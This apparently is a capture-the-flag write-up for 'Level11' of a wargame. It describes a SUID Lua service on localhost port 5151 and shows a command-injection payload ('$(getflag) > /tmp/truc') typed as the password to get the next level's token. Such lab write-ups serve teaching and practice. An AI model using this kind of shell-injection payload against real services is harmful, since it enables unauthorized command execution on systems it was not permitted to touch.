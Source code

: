 # Level11

[FRENCH version](README.md)

## How to get the flag

The file present is a Lua file.

The file is having a SUID bit, so we might be able to exploit it.

There is a sha1 hash inside, but it is a false path; The decryption of its content only say: NotSoEasy (https://www.dcode.fr/sha1-hash)

We can create a code injection

First, we need to connect:

```
nc 127.0.0.1 5151
```

and when the password is asked, type : 

```
$(getflag) > /tmp/truc
```

then,

```
cat /tmp/truc
```

The file contains to token to connect to level12

## The flag

We can use this token to connect to level12
